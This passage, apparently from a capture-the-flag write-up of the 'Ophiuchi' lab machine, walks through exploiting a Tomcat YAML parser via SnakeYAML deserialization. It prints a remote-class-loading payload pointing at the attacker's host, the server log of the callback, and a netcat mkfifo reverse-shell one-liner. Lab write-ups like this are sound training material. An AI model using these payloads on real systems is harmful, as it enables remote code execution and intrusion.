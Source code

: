 ### 8080/TCP - Tomcat

Accessing the Tomcat page at `http://10.10.10.227:8080` we see a YAML parser website, as below:

![Ophiuchi - Parse YAML](https://i.imgur.com/oDXT0S9.png){: .align-center}

Sending a simple payload (`teste: true`), the following message is returned:

> Due to security reasons this feature has been temporarily on hold. We will soon fix the issue!

Once Tomcat is a Java web server, and, based on the message returned, searched about `java yaml rce vulnerability` where I've found a [Medium post](https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858) talking about a vuln called **SnakeYAML**, which had a PoC like the website we have. Also, as *snake* have some references to the constellation from which this box was named, proves we're on the right path :smile:.

Following the suggestion in the post, started a simple http server using python (`sudo python3 -m http.server 80`) and sent the following payload:

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.10.10/"]
  ]]
]
```

Just like the PoC in the blog post, the server searches for a file in `/META-INF/services/javax.script.ScriptEngineFactory` should provide a java class to be executed, which was confirmed based on the logs below.

```bash
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [28/Feb/2021 12:19:22] code 404, message File not found
10.10.10.227 - - [28/Feb/2021 12:19:22] "HEAD /META-INF/services/javax.script.ScriptEngineFactory HTTP/1.1" 404 -
```

## Initial access

To gain initial access to this machine, used the project referenced in the blog post found ([artsploit/yaml-payload: A tiny project for generating SnakeYAML deserialization payloads](https://github.com/artsploit/yaml-payload)).

```bash
git clone https://github.com/artsploit/yaml-payload.git
```

As recommended, we'll add our payload in the class named `AwesomeScriptEngineFactory.java` compile it and invoke it from the payload sent in the form.

First I have tried to use payload `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f` directly in the class `yaml-payload\src\artsploit\AwesomeScriptEngineFactory.java` but as it uses some redirects and pipelines (`>` e `|`) noticed that the best approach would host a payload file in the webserver, download it and run from the victim machine, as the edit below:
